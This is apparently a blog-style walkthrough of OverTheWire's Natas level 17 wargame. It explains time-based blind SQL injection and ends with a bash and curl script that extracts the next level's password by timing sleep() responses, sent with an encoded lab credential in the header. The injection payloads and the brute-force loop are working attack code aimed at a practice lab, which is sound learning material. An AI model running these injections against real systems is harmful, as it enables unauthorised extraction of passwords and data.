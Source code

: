 ```php
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

This appeared absolutely impossible because there's no return. Yet again I tried injecting php code. The only way I thought I could get feedback is by checking on some return from the debug. If I set in the form `action=?debug`, I figured that could be my trigger, for example:

`natas17"; $_GET['debug']=1 #`

`natas18"; <script type="text/javascript"> var = '<?php $_GET["debug"]=1; ?>;' </script> #; $a="`

But it was being sanitized out. My only idea.

Also yet again, I had to check for hints. I saw a timing attack was the key. A timing attack is implied information, not through printouts but through duration. Simply executing a query `SELECT * FROM users WHERE username="I_exist" AND sleep(5)`. This isn't intuitive it's not like a normal logical statement like True and True (I don't think). In this context it's more like the sleep command will get executed "for every record the query finds" ([source](https://www.saotn.org/mysql-sleep-attacks/)). So the solution strategy is going to be a brute force with curl using `like binary` matching as before except we check the total execution time instead of the presence of a particular return string

```bash
front=''
for i in {1..65}
do
        for c in {A..Z} {a..z} {0..9}
        do
                change=0
                /usr/bin/time -f'%e' -o time.log\
                curl -s 'http://natas17.natas.labs.overthewire.org/' \
                -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' \
                --data-raw 'username=natas18%22+and+password+like+binary+%22'$front$c'%25%22+and+sleep%285%29+%23' >/dev/null

                dur=$(cat time.log)
                if [[ $dur > 2 ]]
                then 
                        change=1
                        front=$front$c
                        echo -e "found char $c \t-- $front"
                        break
                fi
        done
        if [ $change == 0 ]; then echo "final: $front"; break ;fi
done
rm time.log
```
